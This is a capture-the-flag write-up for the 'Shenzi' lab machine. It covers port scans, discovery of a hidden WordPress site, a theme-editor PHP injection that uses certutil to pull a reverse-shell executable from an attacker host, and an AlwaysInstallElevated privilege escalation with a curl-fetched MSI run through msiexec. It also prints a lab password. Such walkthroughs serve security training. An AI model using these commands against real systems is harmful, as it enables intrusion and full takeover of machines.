Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.186.55
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-20 16:59 IST
Nmap scan report for 192.168.186.55
Host is up (0.067s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 16.24 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 21,80,135,139,445,443,3306,5040,7680,49664,49665,49666,49667,49668,49669 192.168.186.55
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-20 17:00 IST
Nmap scan report for 192.168.186.55
Host is up (0.11s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.186.55/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.186.55/dashboard/
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-20T11:33:45
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.81 seconds
```

Visiting web server on port 80. It's simple xampp sserver default page.



Enumerating SMB.







There has to be a wordpress website hosted on the XAMPP server. I ran gobuster with the big wordlist but it couldn’t identify the directory. One useful tip for lab machines is to try out any useful keywords you’ve identified so far to identify directories, usernames or passwords. Turns out there is a wordpress website hosted at /Shenzi.





Logged into the application.



Logged in with the wordpress credentials found previously (password FeltHeadwallWight357) and navigated to the plugins page:

Clicked on "Add new".



Here, we can achieve shell through plugins as well as "Appearance - Theme Editor - Theme Footer". I faced challenges through "plugins" option so I chose "Theme Editor".



First we created reverse shell payload for us.



Then used below command to upload it to the target.

```php
<?php exec("certutil -urlcache -split -f http://192.168.45.183:8000/rev.exe C:\\Windows\\temp\\rev.exe")?>
```

Once we click on "update file" our reverse shell will get uploaded to the target.


 We can confirm our upload.

After that we will modify the same command and click on "Update File" to execute it on the target. Before that we'll start the listener.



And we got the shell as well as captured the root flag.



### Privilege Escalation

We checked `whoami /priv` but found nothing useful. So we ran winpeas.





 We can see we have AlwaysInstallElevated set to 1 for current user.

Useful for this privesc : https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/



 We can also confirm this manually referring above mentioned URL.

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```




To exploit this first create a `msfvenom` payload to attempt to gain reverse shell as administrator.



Transfer the `*.msi` file to target system.
```cmd
curl http://192.168.45.183:8000/reverse.msi -o reverse.msi
```




Then start up a listener and install the package using the **`msiexec`** command line utility.
```cmd
msiexec /quiet /qn /i reverse.msi
```






For shell : https://medium.com/@vivek-kumar/offensive-security-proving-grounds-walk-through-shenzi-6976f3938c83

For privellege escalatio : https://sec-fortress.github.io/posts/pg/posts/Shenzi.html

https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/